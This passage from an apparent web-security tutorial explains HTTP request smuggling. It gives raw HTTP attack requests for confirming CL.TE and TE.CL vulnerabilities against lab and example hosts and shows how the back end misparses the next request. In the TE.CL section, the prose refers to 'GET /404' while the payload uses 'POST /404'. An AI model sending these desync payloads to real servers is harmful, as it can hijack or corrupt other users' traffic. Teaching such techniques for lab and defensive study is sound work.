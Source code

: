 If the attack is successful, then the last two lines of this request are treated by the back-end server as belonging to the next request that is received. This will cause the subsequent "normal" request to look like this:
```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
Since this request now contains an invalid URL, the server will respond with status code 404, indicating that the attack request did indeed interfere with it.

### Confirming TE.CL vulnerabilities using differential responses
To confirm a TE.CL vulnerability, you would send an attack request like this:
```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
If the attack is successful, then everything from `GET /404` onwards is treated by the back-end server as belonging to the next request that is received. This will cause the subsequent "normal" request to look like this:
```http
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
Since this request now contains an invalid URL, the server will respond with status code 404, indicating that the attack request did indeed interfere with it.
